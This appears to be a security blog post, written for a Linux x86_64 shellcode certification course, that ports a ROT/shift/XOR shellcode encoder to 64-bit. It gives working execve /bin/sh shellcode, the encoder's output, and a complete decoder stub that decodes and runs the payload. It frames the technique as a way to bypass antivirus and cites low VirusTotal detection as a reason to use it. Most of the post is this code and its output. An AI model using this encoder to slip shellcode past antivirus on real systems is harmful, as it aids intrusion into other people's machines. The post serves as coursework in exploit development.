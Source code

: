 ```yaml
---
layout: single
title: (ROT-N + Shift-N + XOR-N) Shellcode Encoder - Linux x86_64
date: 2018-7-22
classes: wide
header:
  teaser: /assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/EncoderDemo.gif
---
```


Introduction
------------
Encoding schemes are used to transform data in a way that makes it consumable by different systems in a safe manner. In this post we’ll look at how we can bypass AVs by ab(using) this scheme to encode otherwise detectable shellcode.

Shellcode
---------
We will be porting an [x86 encoder](https://www.exploit-db.com/exploits/43890) I made a while back to make it work `x86_64` architecture. Please refer to my SLAE32 blog series for more details on the encoder itself. I’ve also made a quick `execve()` shellcode to test with.

```nasm
section .text

global _start

_start:
 	push rax
	cdq
	push rdx
	pop rsi
	mov rbx,'/bin//sh'
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall
```

Will reuse the `x86` encoder [script](https://github.com/ihack4falafel/SLAE64/blob/master/Assignment%204/Encoder.py) developed during the SLAE32 blog series, all we need is feed it our newly created `/bin/sh` shellcode and generate an encoded version of it.

```sh
➜  A4 ./Encoder.py 13 1 1337
Original Shellcode: 0x50, 0x99, 0x52, 0x5e, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x53, 0x54, 0x5f, 0xb0, 0x3b, 0x0f, 0x05, 
Encoded Shellcode : 0x583, 0x475, 0x587, 0x5ef, 0x593, 0x4a9, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x541, 0x541, 0x439, 0x5d3, 0x5f9, 0x5fb, 0x5e1, 0x443, 0x5a9, 0x501, 0x51d, 0x539
➜  A4 
```

Here’s `Decoder.asm` ported to `x86_64` including previously generated encoded shellcode.

```nasm
global _start

section .text

_start:
    ;
    ; [ROT-N + SHL-N + XOR-N] encoded execve() code block
    ;
    jmp short call_decoder       ; jump to call_decoder to save encoded_shellcode pointer to RSI
	
decoder:

    pop rsi                      ; store encoded_shellcode pointer in RSI
    push rsi   		             ; push encoded_shellcode pointer to stack for later execution
    mov rdi, rsi                 ; move encoded_shellcode pointer to RDI

decode:
    ;
    ; note: 1) Make sure ROT, SHR, and XOR here match your encoder.py input.
    ;       2) Hence we're limited by the size of encoded_shellcode (word),
    ;          SHR is limited to <1-8> bits. Feel free to upgrade size to DW 
    ;          to allow up to 16-bits shift if need be.
    ;
    mov ax, [rsi]                ; move current word from encoded_shellcode to AX
    xor ax, 0x539                ; XOR encoded_shellcode with 1337, one word at a time  
    jz decoded_shellcode         ; if zero jump to decoded_shellcode
    shr ax, 1                    ; shift encoded_shellcode to right by one bit, one word at a time	
    sub ax, 13                   ; substract 13 from encoded_shellcode, one word at a time
    mov [rdi], al                ; move decoded byte to RDI	
    inc rsi                      ; point to the next encoded_shellcode word
    inc rsi
    inc rdi                      ; point to the next decoded_shellcode byte
    jmp short decode             ; jump to decode and repeat the decoding process for the next word!

decoded_shellcode:
    call [rsp]                   ; execute decoded_shellcode

call_decoder:
    call decoder
    encoded_shellcode: dw 0x583, 0x475, 0x587, 0x5ef, 0x593, 0x4a9, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x541, 0x541, 0x439, 0x5d3, 0x5f9, 0x5fb, 0x5e1, 0x443, 0x5a9, 0x501, 0x51d, 0x539
```

Let’s run it.

![](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/EncoderDemo.gif)

Out of curiosity, I decided to compare my `x86` encoded shellcode VT results (taken at the time the original `x86` encoder was created) with `x86_64` one and I found the results quite interesting.

![x86 VT Results](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/Screen-Shot-2018-07-21-at-3.45.33-PM.png)


![x86_64 VT Results](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/Screen-Shot-2018-07-21-at-3.46.08-PM.png)

Closing Thoughts
----------------
The VT results clearly shows that AV vendors don’t care much for `x86_64` shellcode at this point in time which is another good reason why we should use it more. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%204). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
